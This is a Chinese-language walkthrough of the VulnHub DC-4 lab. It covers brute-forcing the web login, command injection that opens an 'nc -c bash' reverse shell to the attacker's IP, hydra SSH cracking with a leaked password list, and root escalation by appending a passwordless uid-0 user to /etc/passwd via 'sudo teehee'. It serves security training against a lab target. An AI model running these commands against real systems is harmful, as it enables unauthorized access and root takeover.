








[靶机地址](https://www.vulnhub.com/entry/dc-4,313/)
靶机描述:
```
DESCRIPTION
DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
```

不给提示了 嘛 慢慢琢磨呗~

**环境配置**
一样的 启动后改NAT

**靶机ip**: 192.168.136.155



**信息收集**

`nmap -A`

```
──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -A 192.168.136.155        
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-18 07:13 CST
Nmap scan report for 192.168.136.155
Host is up (0.00063s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 00:0C:29:9F:66:1D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.136.155

```

还是web服务和ssh两个端口

还是先从80端口打起
没有识别出web框架 扫目录也没什么用 只有孤零零的登录界面...
尝试爆破一下弱口令 应该跟以前一样是爆不出来的
emmm... 是信息收集还不到位吗
真的找不到入口点啊... 
sql注入也不行...

emmm... (像极了这次打hvv...)

只能暴力破解登录了...
那么多字典 都跑一跑
有个400w+的字典...
还真就跑出来了


admin  happy 

登录后发现能够执行三种命令


可能存在RCE
bp抓包 发现是这种payload `radio=ls+-l&submit=Run`
这没有任何waf 的RCE
可以 nc -c 反弹shell
`nc%20-c%20bash%20192.168.136.146%20%209999`

emm 中途把靶机搞炸了 重开一个
ip : 192.168.136.156

尝试SUID提权
```
find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
/bin/ping
/home/jim/test.sh

```

`/home/jim/test.sh`

尝试vi靶机又挂了... 是不能vi罢... (靶机挂了直接重启DC4即可)

再开一次靶机...
ip:  192.168.136.156

python起一个交互shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

我们要先想办法拿到www-data的密码 (不管怎样 提权至少要有当前用户的密码.)
就到处找找config passwd等
找不到...

找用户: **ls /home** ...
找到三个user `charles  jim  sam`

```
www-data@dc-4:/usr/share/nginx/html$ ls /home/jim/backups
ls /home/jim/backups
old-passwords.bak
```


查看得到一个字典
可以用hydra爆破ssh
把字典复制到本地攻击机打
`hydra -l jim -P password.txt -t 16 -vV 192.168.136.156 ssh`


攻击机ssh登录 jibril04


test.sh有权限 但是如果直接改的话就把权限改没了....
又得重配置一次...
emm 这里不好提权 然后发现前面ssh登录的时候有提示...


查看mail
`cat /var/mail/jim`

```
Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```

得到Charles的密码
`charles`  `^xHhA&hvim0y`

`sudo -l`


**teehee提权**:
```
teehee是个小众的linux编辑器。如果有sudo权限。可以利用其来提权

核心思路就是利用其在passwd文件中追加一条uid为0的用户条目

echo "raaj::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
按照linux用户机制，如果没有shadow条目，且passwd用户密码条目为空的时候，可以本地直接su空密码登录。
所以只需要执行su raaj就可以登录到raaj用户，这个用户因为uid为0，所以也是root权限
```



```
root@dc-4:/home/jim# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/home/jim# ls /root
flag.txt
root@dc-4:/home/jim# cat /root/fla*


888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
root@dc-4:/home/jim#
```

Got It!

---
---

这个靶机只要开始爆破登陆进去后面其实难度不大
考察点:
- 强大的字典爆破弱口令
- RCE反弹shell
- 找用户 -> 密码字典
- hydra爆破ssh
- ssh jim 登陆查看mail 切换charles
- teehee提权